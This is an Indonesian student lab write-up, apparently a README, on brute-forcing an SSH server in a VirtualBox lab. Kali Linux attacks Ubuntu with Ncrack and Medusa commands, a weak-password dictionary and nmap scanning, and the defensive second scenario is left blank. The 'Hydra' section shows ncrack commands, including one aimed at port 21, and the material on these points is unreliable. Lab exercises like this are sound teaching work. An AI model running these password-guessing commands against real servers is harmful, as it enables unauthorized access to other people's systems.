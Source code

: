 ##Dokumentasi Perancangan Keamanan Sistem dan Jaringan

>###Penulis
>* M. Syaiful Jihad A.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100022
>* Yoga Bayu Aji P.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100023
>* Bagas Andita S.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100029

##Percobaan serangan Brute-Force pada SSH Server

##Simulasi dan skema serangan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Percobaan yang akan dibuat adalah melakukan _brute-force attack_ pada sebuah sever yang dipasang ssh server. Percobaan dilakukan dengan dua environment yang berbeda. Environment pertama server yang digunakan tidak dilakukan suatu apapun untuk mencegah serangan. Environment kedua pada server akan ditambahkan konfigurasi dan aplikasi yang bertujuan untuk mencegah serangan yang dilakukan.

###Sekenario 1
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Disini kita menggunakan sebuah host dengan sistem operasi Ubuntu Server 14.04 yang telah terinstall openSSH-server. Sistem operasi ini akan digunakan sebagai target serangan. Kemudian digunakan sistem operasi Kali Linux yang akan digunakan sebagai komputer penyerang.
SSH server dan sistem operasi yang digunakan masih dalam keadaan default tanpa ada Firewall maupun konfigurasi untuk melakukan pencegaran terharap serangan.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;a. Instalasi host dengan menggunakan Virtualbox.
<img src="asset/kali_strun.png" width="240">;&nbsp;&nbsp;;&nbsp;&nbsp;<img src="asset/ubt_strun.png" width="240">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sebelum melakukan serangan kita harus menyiapkan kedua buah sistem operasi yang akan digunakan untuk simulasi. Pertama kita menginstall dulu ubuntu server 14.04. Setelah itu install openSSH-server pada sistem operasi tersebut. 
```
$ sudo apt-get install openssh-server
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Setelah server yang akan menjadi korban serangan siap, kita melakukan instalasi sistem operasi untuk penyerang. Pada komputer penyerang kita akan menggunakan beberapa tools yaitu: _Hydra, Ncrack,_ dan _Medusa._
 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;b. Setting alamat IP untuk masing-masing host sehingga dapat saling terhubung satu sama lain.
>IP penyerang &nbsp;&nbsp;&nbsp;&nbsp;10.151.36.115

>IP korban &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;10.151.36.120

![tes_ping](asset/test_ping.png)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Langkah selanjutnya pastikan antara sever korban dan penyerang sudah terhunung.
Dari sisi penyerang, kita akan melakukan test dahulu apakah port SSH dari server terbuka dengan menggunakan nmap.
```
# nmap -sV [_IP address korban_]
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pastikan port ssh(22) terbuka agar kita dapat melakukan serangan kepada server.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;c. Melakukan simulasi serangan brute-force SSH dengan menggunakan aplikasi Hydra dan Ncrack.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sebelum melakukan serangan kita membutuhkan sebuah _dictionary-passwords_ yang digunakan untuk mencoba password yang cocok untuk masuk kedalam server. Disini kita mencoba menggunakan _500-worst-password.txt_ dari [skullsecurity](http://downloads.skullsecurity.org/passwords). 

####Uji serangan
- Hydra
Perintah yang digunakan untuk menjalankan Hydra adalah:
```
ncrack -t 7 -l [username] -P [pass_dictionary] [host_target] -p [port_victiom]
```
```
# ncrack -u victim -P 500-worst-passwords.txt 10.151.36.120 -p 21
```

>-l&nbsp;&nbsp;&nbsp;&nbsp;Option untuk memasukkan username

>-t&nbsp;&nbsp;&nbsp;&nbsp;Memberikan delay serangan

>-P&nbsp;&nbsp;&nbsp;Membaca password dari file

>-p&nbsp;&nbsp;&nbsp;&nbsp;Port yang akan diserang 

Kemudian tunggu proses sampai selesai. Jika berhasil maka akan terlihat seperti pada gambar dibawah ini.

![hydra_res](asset/success_hydra.png)

- Ncrack
Perintah untuk melakukan serangan dengan menggunakan aplikasi Ncrack adalah:
```
ncrack -p [servicelist] -u [user_name] -P [pass_dictionary] -T[0-5] [host_target]
```
```
# ncrack -p ssh -u mirana -P 500-worst-passwords.txt T5 10.151.36.120
```

>-p&nbsp;&nbsp;&nbsp;&nbsp;Pemilihan service yang akan diserang

>-u&nbsp;&nbsp;&nbsp;&nbsp;Option untuk memasukkan username

>-P&nbsp;&nbsp;&nbsp;&nbsp;Membaca password dari file

>-T&nbsp;&nbsp;&nbsp;&nbsp;Timing template untuk serangan

Hasil yang akan ditampilkan adalah sebagai berikut:

![ncrack_res](asset/success_ncrack.png)

- Medusa
Perintah untuk melakukan serangan dengan aplikasi Medusa adalah:
```
medusa -u [username] -P [pass_dictionary] -h [host_target] -M [modul]
```
```
# medusa -u mirana -P 500-worst-password.txt -h 10.151.36.120 -M ssh
```

>-u&nbsp;&nbsp;&nbsp;&nbsp;Username dari yang diserang

>-P&nbsp;&nbsp;&nbsp;&nbsp;Membaca password dari file

>-h&nbsp;&nbsp;&nbsp;&nbsp;Host target

>-M&nbsp;&nbsp;&nbsp;&nbsp;Modul serangan yang digunakan

Hasilnya akan seperti dibawah ini:

![medusa_res](asset/success_medusa.png)

>PS: _diasumsikan username sudah diketahui oleh penyerang._

##Sekenario 2

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
